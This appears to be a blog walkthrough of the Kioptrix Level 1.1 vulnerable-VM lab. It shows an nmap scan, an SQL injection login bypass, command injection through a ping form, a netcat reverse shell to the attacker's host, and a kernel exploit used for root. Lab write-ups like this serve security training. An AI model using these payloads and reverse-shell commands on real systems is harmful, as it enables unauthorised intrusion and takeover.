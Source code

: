 
The second Kioptrix challenge isn't quite as scan and exploit as the first, but still a relatively easy beginner challenge. The Kioptrix challenges can be downloaded from [http://www.kioptrix.com/blog/?page_id=135](http://www.kioptrix.com/blog/?page_id=135). It's actually labeled as Level 1.1. The author mentions that there are multiple ways to compromise the system. I've only explored one method, which is what I'll be describing here.

<!--more-->

Once Kioptrix 1.1 had loaded, I ran a netdiscover scan and found it's IP address on my LAN: 192.168.1.146. I followed up with a port scan:

```
# nmap -sV -A -T4 192.168.1.146
 
Starting Nmap 5.61TEST4 ( http://nmap.org ) at 2012-04-24 10:40 EDT
Nmap scan report for 192.168.1.146
Host is up (0.00047s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE              VERSION
22/tcp   open  ssh                  OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
| 1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
80/tcp   open  http                 Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind (rpcbind V2) 2 (rpc #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            651/udp  status
|_  100024  1            654/tcp  status
443/tcp  open  ssl/http             Apache httpd 2.0.52 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08 00:10:47
|_Not valid after:  2010-10-08 00:10:47
|_sslv2: server still supports SSLv2
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
631/tcp  open  ipp                  CUPS 1.1
| http-methods: Potentially risky methods: PUT
|_See http://nmap.org/nsedoc/scripts/http-methods.html
3306/tcp open  mysql                MySQL (unauthorized)
MAC Address: 00:0C:29:BF:D3:86 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
```

A website is available, and it looks like a MySQL database runs in the backend. nmap also found an open CUPS port. I decided to start with the webserver. Browsing over to http://192.168.1.146, I was greeted with a login form.

![](/images/2012-07-06/01.png)

I decided to see if I could bypass the authentication mechanism using a simple SQL injection attack. For the username I entered test, and for the password I entered x' or 'x'='x. I was going by the assumption that the backend SQL code looked something like

```sql
SELECT * FROM ACCOUNTS WHERE USERNAME='test' AND PASSWORD='password'
```

By using x' or 'x'='x the query would be changed so that the results would always be true:

```sql
SELECT * FROM ACCOUNTS WHERE USERNAME='test' AND PASSWORD='x' OR 'x'='x'
```

I hit the Login button and was presented with a new form. The SQL injection worked and I was able to login as some authenticated user.

![](/images/2012-07-06/02.png)

It looked to be some sort of diagnostic tool that allowed an authenticated user to ping a machine. I punched in 127.0.0.1 and hit Submit to see what would happen. A new browser tab opened up that showed the ping results:

![](/images/2012-07-06/03.png)

I wondered if this form was susceptible to code injection. I assumed that the backend code for this form probably just made a system call to ping and passed it the IP address that I had entered in the form. If that was the case, I could chain my own commands at the end of the IP address and have them execute on the server. I started off with 127.0.0.1;id as a simple test:

![](/images/2012-07-06/04.png)

Sure enough, right at the end of the ping results, it showed me that the process had run as the apache user. If I could inject code that would run on the webserver, then I could make it give me a reverse shell so that I could have shell access to the server. Probing the system further, I used the whereis command and found netcat. It was time to try a reverse shell. On my terminal I started a netcat listener

```text
# nc -lvp 8080
```

On the webpage I entered the following into the form and hit Submit

```
127.0.0.1;/usr/local/bin/nc 192.168.1.172 8080 -e '/bin/bash'
```

Netcat on the server started up and connected to my netcat listener and gave me a reverse shell.

![](/images/2012-07-06/05.png)

Now that I had shell access to the system, exploring it would be much easier. Running uname gave me the kernel version, 2.6.9. Checking against exploit-db, I found several exploits against the 2.6.x kernel:

```
# /pentest/exploits/exploitdb/searchsploit kernel 2.6 linux local|sort -n
--------------------------------------------------------------------------- -------------------------
 Description                                                                 Path
Linux 2.6.30+/SELinux/RHEL5 Test Kernel Local Root Exploit 0day             /linux/local/9191.txt
Linux Kernel 2.4.1-2.4.37 and 2.6.1-2.6.32-rc5  Pipe.c Privelege Escalation /linux/local/9844.py
Linux Kernel 2.4/2.6 bluez Local Root Privilege Escalation Exploit (update) /linux/local/926.c
Linux Kernel 2.4/2.6 sock_sendpage() Local Root Exploit [2]                 /linux/local/9598.txt
Linux Kernel 2.4/2.6 sock_sendpage() Local Root Exploit [3]                 /linux/local/9641.txt
Linux Kernel 2.4/2.6 sock_sendpage() Local Root Exploit (ppc)               /linux/local/9545.c
Linux Kernel 2.4/2.6 sock_sendpage() ring0 Root Exploit (simple ver)        /linux/local/9479.c
Linux Kernel 2.4/2.6 x86-64 System Call Emulation Exploit                   /linux/local/4460.c
```

The ring0 root exploit seemed promising, so I decided to try that one first. Using netcat, I transferred the file from my machine to the target: On my machine:

```
nc -lvp 9998 < /pentest/exploits/exploitdb/linux/local/9479.c
```

On the target machine:

```
cd /tmp/
nc 192.168.1.172 9998 > 9479.c
```

With the ring0 exploit transferred, it was time to compile and run it:

```
gcc 9479.c
./a.out
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00#
```

Instant root shell and game over.
This challenge was a just a little bit more involved than the first Kioptrix level. Getting a foothold into the system required a bit of knowledge about SQL injection, and how Linux commands can be chained. If you can find a way to run commands on the server remotely, you're one step closer to rooting it.
